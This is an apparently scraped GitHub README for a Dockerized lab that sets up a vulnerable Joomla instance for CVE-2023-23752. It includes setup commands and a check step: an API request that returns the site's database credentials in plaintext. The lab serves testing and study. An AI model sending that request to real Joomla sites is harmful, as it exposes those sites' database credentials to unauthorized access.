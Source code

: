 # CVE-2023-23752-Docker

Joomla Unauthorized Access Vulnerability (CVE-2023-23752) Dockerized

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/karthikuj](https://github.com/karthikuj) |
| Url      | [https://github.com/karthikuj/CVE-2023-23752-Docker](https://github.com/karthikuj/CVE-2023-23752-Docker)                                               |
| Stars    | 1                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>

* cve* cve-2023-23752* joomla* poc

</details>

## Readme

# CVE-2023-23752
Joomla Unauthorized Access Vulnerability (CVE-2023-23752) Dockerized

## Installation
-------------


### Recommended (automatic)

1. Clone this repo `git clone https://github.com/karthikuj/CVE-2023-23752-Docker.git`
2. Change directory `cd CVE-2023-23752-Docker`
3. Run `./setup.sh`
4. Open your browser and go to http://localhost:8080/

### Manual

1. Clone this repo `git clone https://github.com/karthikuj/CVE-2023-23752-Docker.git`
2. Change directory `cd CVE-2023-23752-Docker`
3. Run `docker-compose up -d`
4. Open your browser and go to http://localhost:8080/
5. Enter all the details.
6. While configuring the database:
    - Enter `joomladb:mysql` as hostname.
    - Enter `root` as username.
    - Enter `example` as password.
    - Enter `joomla_db` as database name.
    
## Check for CVE-2023-23752
-------------
1. After installation open your browser and navigate to http://localhost:8080/api/index.php/v1/config/application?public=true
2. You will be able to see the databse username and password in plaintext in the response.


## Uninstall
-------------

1. Run `./remove-joomla.sh`



## Get the content

```
git clone https://github.com/karthikuj/CVE-2023-23752-Docker
cd CVE-2023-23752-Docker
```

{% embed url="https://github.com/karthikuj/CVE-2023-23752-Docker" %}

<figure><img src="https://avatars.githubusercontent.com/u/59091280?v=4" alt=""><figcaption><p>karthikuj</p></figcaption></figure>
